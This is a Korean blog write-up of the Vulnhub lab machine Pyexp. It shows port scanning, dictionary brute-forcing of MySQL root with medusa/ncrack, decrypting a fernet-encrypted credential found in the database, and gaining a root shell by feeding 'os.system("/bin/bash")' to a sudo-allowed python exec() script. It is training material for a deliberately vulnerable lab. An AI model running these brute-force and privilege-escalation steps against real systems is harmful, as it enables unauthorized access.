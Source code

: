 ```yaml
---
layout: post
title: Vulnhub - Pyexp
subtitle: Pyexp writeup
category: writeup
tags: [writeup, vulnhub, pyexp, linux, fernet]
author: Hong
---
```


이번에는 vulnhub에 있는 Pyexp 머신의 라이트업을 작성하겠다.

# nmap

우선 nmap으로 해당 IP주소에 열려있는 포트를 파악한다.  
`nmap -sC -sV 192.168.11.142 -p-`  
그럼 다음과 같은 결과가 나온다.

```
1337/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey:
|   2048 f7:af:6c:d1:26:94:dc:e5:1a:22:1a:64:4e:1c:34:a9 (RSA)
|   256 46:d2:8d:bd:2f:9e:af:ce:e2:45:5c:a6:12:c0:d9:19 (ECDSA)
|_  256 8d:11:ed:ff:7d:c5:a7:24:99:22:7f:ce:29:88:b2:4a (ED25519)
3306/tcp open  mysql   MySQL 5.5.5-10.3.23-MariaDB-0+deb10u1
| mysql-info:
|   Protocol: 10
|   Version: 5.5.5-10.3.23-MariaDB-0+deb10u1
|   Thread ID: 39
|   Capabilities flags: 63486
|   Some Capabilities: Speaks41ProtocolOld, Support41Auth, IgnoreSpaceBeforeParenthesis, SupportsTransactions, SupportsCompression, Speaks41ProtocolNew, ODBCClient, DontAllowDatabaseTableColumn, InteractiveClient, ConnectWithDatabase, IgnoreSigpipes, SupportsLoadDataLocal, LongColumnFlag, FoundRows, SupportsMultipleResults, SupportsAuthPlugins, SupportsMultipleStatments
|   Status: Autocommit
|   Salt: ,S=xdmx46S}@dXl5`eZq
|_  Auth Plugin Name: mysql_native_password
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

ssh와 mysql포트가 열려있다.  
nmap에서 모든 포트를 지정했지만, 지정하지 않았다면 ssh가 1337 포트에 열려있다는 것을 놓쳤을 것이다.

# mysql

mysql의 취약점을 찾아보려고 버전을 검색해보거나 이미 나와있는 exploit들을 적용해봐도 소용이 없었다.  
아마 다른 방법이 있을 것 같은데 뭘까?  
그러던 중 무식하게 부르트포스로 비밀번호를 찾아보기로 했다.  
`hydra -l root -P /usr/share/wordlists/rockyou.txt 192.168.11.142 mysql`  
평소 자주 쓰는 툴인 hydra를 이용했지만 왜인지 에러가 발생했다.  
**[ERROR] all children were disabled due too many connection errors**  
다른 툴을 사용해보기로 했다.  
이것저것 실험해본 결과 아래 두가지 툴이 문제없이 돌아갔다.

- medusa
- ncrack

둘 중 아무거나 사용해서 root의 비밀번호를 찾는다.  
둘다 사용해본 결과 ncrack이 훨씬 빨랐다.  
`medusa -u root -P /usr/share/wordlists/rockyou.txt -h 192.168.11.142 -M mysql`

그럼 다음과 같은 결과가 나온다.  
**ACCOUNT FOUND: [mysql] Host: 192.168.11.142 User: root Password: prettywoman [SUCCESS]**  
위의 크레덴셜을 가지고 mysql에 로그인해본다.  
` mysql -h 192.168.11.142 -u root -p`

```
+--------------------+
| Database           |
+--------------------+
| data               |
| information_schema |
| mysql              |
| performance_schema |
+--------------------+
```

이로써 데이터베이스에 root로 접속 성공.  
데이터베이스들을 보면 data라는 게 있다.  
안을 보면 다음과 같은 테이블이 있다.

```
+----------------+
| Tables_in_data |
+----------------+
| fernet         |
+----------------+
```

# fernet

fernet이라는 이름의 테이블을 발견했다.

```
+--------------------------------------------------------------------------------------------------------------------------+----------------------------------------------+
| cred                                                                                                                     | keyy                                         |
+--------------------------------------------------------------------------------------------------------------------------+----------------------------------------------+
| gAAAAABfMbX0bqWJTTdHKUYYG9U5Y6JGCpgEiLqmYIVlWB7t8gvsuayfhLOO_cHnJQF1_ibv14si1MbL7Dgt9Odk8mKHAXLhyHZplax0v02MMzh_z_eI7ys= | UJ5_V_b-TWKKyzlErA96f-9aEnQEfdjFbRKt8ULjdV0= |
+--------------------------------------------------------------------------------------------------------------------------+----------------------------------------------+
```

cred와 keyy라는 값이 있는데 인코딩 혹은 암호화 되어있는 것처럼 보인다.  
본적이 없어서 뭔지 모르겠기 때문에 검색해봤다.  
https://stackoverflow.com/questions/28775567/why-does-a-fernet-encryption-token-always-start-with-the-same-sequence-python  
암호화 관련된 포스팅을 발견했다. 역시 암호화에 쓰이나보다.  
그래서 복호화하는 방법을 검색해봤다.  
근데 [온라인 툴](https://asecuritysite.com/tokens/ferdecode)까지 있는 것을 발견했다.  
또 다른 방법으로는 온라인에 돌아다니는 복호화 파이썬 스크립트를 사용하는 방법도 있다.

데이터베이스에서 발견한 크레덴셜을 넣고 디코드하면 다음과 같은 값이 나온다.  
lucy:wJ9`"Lemdv9[FEw-  
lucy라는 유저를 발견했다.

# ssh

이제 유저와 비밀번호를 알았으니 ssh로 접속해본다.

```
lucy@pyexp:~$ whoami
lucy
```

이로써 유저 플래그 획득!

이제 권한 상승을 해야하기 때문에 가장 먼저 sudo를 확인해 봤다.

**(root) NOPASSWD: /usr/bin/python2 /opt/exp.py**

root권한으로 exp.py라는 스크립트를 실행할 수 있는 것을 확인했다.  
스크립트의 내용을 확인해보자.

```
uinput = raw_input('how are you?')
exec(uinput)
```

인풋을 입력받으면 exec메소드로 실행하는 것을 알 수 있다.  
너무 간단해 보인다.

```
sudo /usr/bin/python2 /opt/exp.py
how are you?import os;os.system("/bin/bash")

root@pyexp:/opt# whoami
root
```

인풋에 배쉬쉘을 실행하는 명령어를 입력하면 root권한으로 쉘이 열리는 것을 알 수 있다.  
이렇게 루트 플래그 획득!

# 결론

이 머신의 경우 권한상승보다 처음 초기침입이 훨씬 까다로웠다.  
모든 포트를 스캔해야한다는 점.  
브루트포스를 사용했어야 한다는 점.  
fernet이 무엇인지 찾아보고 감을 잡아야 한다는 점.
